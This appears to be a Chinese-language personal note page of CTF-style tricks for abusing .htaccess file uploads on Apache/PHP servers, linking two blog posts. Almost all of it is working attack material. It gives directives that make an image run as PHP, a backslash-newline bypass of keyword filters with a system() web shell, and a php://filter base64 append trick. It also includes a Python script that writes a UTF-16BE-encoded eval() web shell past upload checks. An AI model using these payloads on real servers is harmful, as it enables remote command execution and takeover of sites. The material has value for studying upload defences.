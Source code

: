 - [https://blog.csdn.net/LYJ20010728/article/details/116541325](https://blog.csdn.net/LYJ20010728/article/details/116541325)
- [https://blog.csdn.net/LYJ20010728/article/details/116538926](https://blog.csdn.net/LYJ20010728/article/details/116538926)
- ```htaccess
  <FilesMatch "b.png">
  SetHandler application/x-httpd-php
  </FilesMatch>
  ```
- 之后访问b.png就可以运行b.png中的脚本
- 可以用 `\` 加换行绕过关键词检测
- 绕过：
- ```
  php_value auto_prepend_fi\\
  le .htaccess
  #<?php echo 123;?>
  #<?=123?>
  #<?php @system($_POST['data']);?>
  ```
- 可以使用伪协议
- ```
  AddType application/x-httpd-php .xxx
  php_value auto_append_file "php://filter/convert.base64-decode/resource=shell.xxx"
  ```
- 也可以通过设置编码格式为utf-16be来绕过文件上传会检测 `<?` 的限制
  id:: 6569d71e-4867-42a5-8342-267690955af1
	- id:: 6569d71e-0900-4e8a-b638-8708605d9e88
	  ```python
	  SIZE_HEADER = b"\n\n#define width 1337\n#define height 1337\n\n"
	  
	  def generate_php_file(filename, script):
	      phpfile = open(filename, 'wb') 
	      phpfile.write(script.encode('utf-16be'))
	      phpfile.write(SIZE_HEADER)
	      phpfile.close()
	  
	  def generate_htacess():
	      htaccess = open('.htaccess', 'wb')
	      htaccess.write(SIZE_HEADER)
	      htaccess.write(b'AddType application/x-httpd-php .ppp\n')
	      htaccess.write(b'php_value zend.multibyte 1\n')
	      htaccess.write(b'php_value zend.detect_unicode 1\n')
	      htaccess.write(b'php_value display_errors 1\n')
	      htaccess.close()
	  
	  generate_htacess()
	  generate_php_file("shell.ppp", "<?php echo 123; eval($_GET['cmd']); die(); ?>")
	  ```